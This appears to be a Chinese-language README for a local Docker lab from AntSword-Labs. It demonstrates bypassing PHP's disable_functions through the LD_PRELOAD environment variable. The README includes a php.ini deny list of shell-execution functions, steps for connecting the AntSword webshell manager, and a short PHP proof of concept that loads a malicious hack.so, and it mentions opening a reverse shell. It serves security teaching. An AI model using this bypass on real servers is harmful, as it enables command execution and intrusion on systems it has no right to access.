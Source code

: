 ## 01 利用 LD_PRELOAD 环境变量

### php.ini 配置如下:

```ini
disable_functions=pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,exec,shell_exec,popen,proc_open,passthru,symlink,link,syslog,imap_open,dl,mail,system
```

### 使用条件

* Linux 操作系统
* `putenv`
* `mail` or `error_log` 本例中禁用了 `mail` 但未禁用 `error_log`
* 存在可写的目录, 需要上传 `.so` 文件

###  绕过实验

1. 启动环境

```
$ docker-compose up -d
```

Shell | 密码
:-:|:-:
`http://127.0.0.1:18080/index.php` | `ant`
`http://127.0.0.1:18080/shell.php` | `ant`

2. 打开 AntSword 添加 Shell

![1.png](https://i.loli.net/2019/07/08/5d2224b0aa7ad32603.png)

也可直接使用配置导入插件导入下面的配置:

```
{"_id":"YoW1ftyOv7JjrLmN","addr":"IANA 保留地址用于本地回送","category":"default","ctime":1562515402313,"decoder":"default","encode":"UTF8","encoder":"base64","httpConf":{"body":{},"headers":{}},"ip":"127.0.0.1","note":"AntSword-Labs Bypass disable functions","otherConf":{"chunk-step-byte-max":"3","chunk-step-byte-min":"2","command-path":"","filemanager-cache":1,"ignore-https":1,"request-timeout":"30000","terminal-cache":0,"upload-fragment":"500","use-chunk":0,"use-multipart":0},"pwd":"ant","type":"php","url":"http://127.0.0.1:18080/index.php","utime":1562517866376}
```

3. 尝试使用虚拟终端执行命令, 无果

![2.png](https://i.loli.net/2019/07/08/5d2224b31884b21027.png)

4. 使用「绕过 disable_functions」插件, 选择 `LD_PRELOAD` 模式进行

![3.png](https://i.loli.net/2019/07/08/5d2224b4ecaf383830.png)

详细使用方法请点 [这里](https://mp.weixin.qq.com/s/GGnumPklkUNMLZKQL4NbKg)

成功后可以看到 `/var/www/html/` 目录下新建了一个 `.antproxy.php` 文件。我们创建副本, 并将连接的 URL shell 脚本名字改为 `.antproxy.php`, 就可以成功执行命令。

![4.png](https://i.loli.net/2019/07/08/5d2224b7e1e2696154.png)

**注意**

从上图可看出来，我们利用 LD_PRELOAD, 在目标机器的 lo 上用 PHP 启动了一个 http server, 并且加载的是 PHP 默认配置。

所以我们需要在插件中填写正确的 php 可执行文件的路径(如果在环境变量中, 可以直接写 `php`)

#### 手动

原理脚本如下:

```
<?php
  putenv("LD_PRELOAD=/tmp/hack.so");
  error_log("a",1);
  mail("a@localhost","","","","");
?>
```

利用 LD_PRELOAD 环境变量, 加载 hack.so, 在 hack.so 中执行命令.

我们可以直接利用 hack.so 反弹 shell, 或者将输出重定向到文件当中
